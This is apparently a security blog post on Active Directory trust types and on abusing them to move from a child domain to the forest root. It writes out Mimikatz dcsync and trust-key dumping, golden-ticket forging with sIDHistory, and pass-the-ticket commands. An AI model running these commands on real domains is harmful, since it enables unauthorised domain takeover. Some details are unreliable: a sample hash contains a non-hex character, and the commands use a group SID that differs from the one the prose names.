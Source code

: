 ```yaml
---
cover: https://i.postimg.cc/ZK6QqchB/trusts.jpg
title: "Infiltrating the Domain: Exploiting Active Directory Trusts"
date: 9/01/2024 5:22:33 +08:03
categories: research
tags: [Active Directory Trust]
toc: true
toc_number: false
---
```

# Overview
In active directory trust is a relationship between two domain or forest which allows users or groups of one domain or forest to authenticate and access resources of another domain or forest or vice versa. 

## One Way Trust
![One Way Trust](https://i.postimg.cc/Y9JV7Tgv/one-way-trust-drawio.png)
This is also known as one direction trust where users or groups in trusted domain can access resources in trusting domain but the reverse is not true. For example in a forest `alex.local` there is a child domain `development.alex.local` and there is another forest` dhital.local` which has its child domain `management.dhital.local`. If `development.alex.local` is configured to trust `management.dhital.local` then `development.alex.local` is the trusting domain wheares `management.dhital.local` is the trusted domain so users/groups in `management.dhital.local` can authenticate and access resources of `development.alex.local` but vice versa is not true.

## Two way trust(Bi-directional trust)
![](https://i.postimg.cc/XJ6t5TH9/bidirectional.jpg)
Two way trust also called as bi-directional trust is a trust relationship where users or groups of one domain or forest can access each other's resources. This type of trust is automatically created between domains inside a forest. For example in the above diagram The root domain is `alex.local` which has two child domains `development.alex.local` and `finance.alex.local`. Both development and finance can access each other resources as well as can access resource in `alex.local` itself.

**Note:** In a forest if one domain is compromised the entire forest can be compromised since domains inside a forest has bi-directional trust with each other. eg: If `management.alex.local` is compromised due to bi-directional parent child trust alex.local can be compromised.

## Transitive Trust
![](https://i.postimg.cc/2jPFDM8f/bi-directionall-drawio.png)
This kind of trust exists automatically between domains inside a forest. For example in a forest `alex.local` there are three domains development, finance and management. If `development.alex.local` has bi directional trust with `finance.alex.local` and `finance.alex.local` has bi directional trust with `management.alex.local` then development domain has bi directional trust automatically with management.

## Non transitive trust
It means if domain A trusts domain B and domain B trusts domain C then domain A does not trust domain C automatically and a separate trust needs to be established between them. This type of trust relationship automatically exists between two domains in different forest.

## Parent Child trust
This is same as bi-directional trust. It is created automatically between forest root and child domains. example: child domain `management.alex.local` and forest root which is the parent domain `alex.local` can access each other's resources.

## Tree root trust
It is automatically created between trees in a forest. For example in a forest alex.local there are three domains development, finance and management and management has child domain `in.management.alex.local`. If `in.management.alex.local` is compromised due to bi directional trust `management.alex.local` can be compromised and again due to bi-directional trust `alex.local` forest itself can be compromised.

## External trust
This needs to be created manually. This trust is manually established by enterprise administrator between domains in two different forests. For example: two forests `alex.local` and `dhital.local`. `alex.local` has two child domains `development.alex.local` and `management.alex.local`. The forest `dhital.local` has `sales.dhital.local` and `IT.dhital.local`. Here, enterprise administrators can setup one way or two way trust between `development.alex.local` and `sales.dhital.local` or with any other domain. 

## Kerberos working inside forest.
![](https://i.postimg.cc/0NPVhhW5/inter-forest-drawio.png)
Suppose a client in `management.alex.local` wants to access a service residing in parent domain `alex.local` how does he do it?
- The client asks for TGT with authentication server.(current domain's dc)
- The authentication server sends TGT to the client.(current domain's dc)
- The client presents this TGT along with spn `MSSQL\sql.alex.local` to the ticket granting server(current domain's dc) and asks for ST for MSSQL service residing in alex.io domain.
- The DC checks the spn and provides inter forest TGT(This inter forest TGT is encrypted using trust key for parent and child domains. This trust key is present in dc of both domains.)
- Client presents this inter forest TGT to DC of parent domain and asks for ST 
- The parent domain's DC decrypts this inter forest TGT using its own trust key and if successfull presents ST to the client.
- The client presents this service ticket to the service in parent domain.
- The service provides or denies access.

## Forging inter realm TGT via sIDHistory
sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory. sIDHistorycan be abused in two ways of escalating privileges within a forest:
- Extracting trust key and forging inter forest TGT by creating golden ticket and setting sIDHistory as enterprise administrator.
- Extracting krbtgt hash of current domain and forging inter realm TGT by creating golden ticket and setting sIDHistory as enterprise administrator.

### Forging inter realm TGT using krbtgt hash
First we need sid of domain admins group of target domain alex.local which is enterprise administrators as well. Using PowerView
```powershell
PS C:\Users\Alex\Desktop> Get-DomainGroup -Identity "Domain Admins" -Domain alex.local -Properties ObjectSid
```
We will also need sid of current domain which is management.alex.local
```powershell
PS C:\Users\Alex\Desktop> Get-DomainSID
```
Dump hash of krbtgt account of current domain by performing dcsync. Extract the aes256 hash.
```powershell
PS C:\Users\Alex\Desktop> Invoke-Mimikatz -Command '"lsadump::dcsync /user:mgmt\krbtgt"' -ComputerName mgmt-dc
```
Create golden ticket setting sIDHistory for enterprise administrator and pass the ticket into a logon session using `/ptt`
```powershell
PS C:\Users\Alex\Desktop> .\Rubeus.exe golden /aes256:31e7f323ade5689f7adfdfeee19de65ebc37c01a4790a7f38fb52e06563d5g8d /user:Administrator /domain:management.alex.local /sid:S-1-5-21-673305511-321244342-2457501623 /sids:S-1-5-21-4294361352-675613456-824644915-512 /nowrap /ptt
```
- aes256 is the hash of krbtgt account of current domain.
- sid is the sid of current domain.
- sids is the sid of parent domain.
Finally, access the dc of alex.local
```powershell
C:\Users\Alex\Desktop> ls \\dc.alex.local\ADMIN$
```
### Forging inter realm TGT using trust key
When the client sends its TGT and spn `MSSQL\sql.alex.local` to the ticket granting server of `management.alex.local` domain the ticket granting server sees the spn and realizes it is for parent domain `alex.local`. The Ticket Granting Server then sends the client inter realm TGT as in the above steps. This inter realm TGT is encrypted with trust key present in domain controller of both child and parent domain. If we have DA access on child domain we can simply extract this trust key and forge inter realm TGT setting sIDHistory as enterprise administrator and re-encrypt this forged inter realm TGT using the trust key and finally use this inter realm TGT to request ST for any service service on parent domain. We can simply request service ticket for cifs, host on domain controller of parent domain since we have forged inter real TGT as enterprise administrator.

Using mimikatz extract the trust keys look for trust keys [In] child.domain -> prent.domain and extract rc4.
```powershell
C:\Users\Alex\Desktop> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName mgmt-dc
```
Similarly as above get using PowerView get SID for current domain, get SID for Enterprise Administrator group of parent domain `519` is default here.
```powershell
C:\Users\Alex\Desktop> Invoke-Mimikatz "kerberos::golden /user:Administrator /domain:management.alex.local /sid:S-1-5-21-673305511-321244342-2457501623 /sids:S-1-5-21-4294361352-675613456-824644915-512 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:alex.local /ticket:C:\Users\Alex\Desktop\trust_tkt.kirbi" "exit"
```
- The first sid parameter is the sid of current domain
- The second sids parameter is the sid of enterprise administrators group of the parent domain 519 is default
- rc4 is the rc4 of the trust key
- target is parent domain
- ticket is the path to where the ticket should be saved.

We can use Rubeus to request service ticket for cifs on dc of parent domain and pass the ticket into logon session

```powershell
C:\Users\Alex\Desktop> Rubeus.exe asktgs /ticket:C:\Users\Alex\Desktop\trust_tkt.kirbi /service:cifs/dc-1.alex.local /dc:dc-1.alex.local /ptt
```

Access the DC of parent domain.

```powershell
C:\Users\Alex\Desktop> ls \\dc-1.alex.local\c$
```
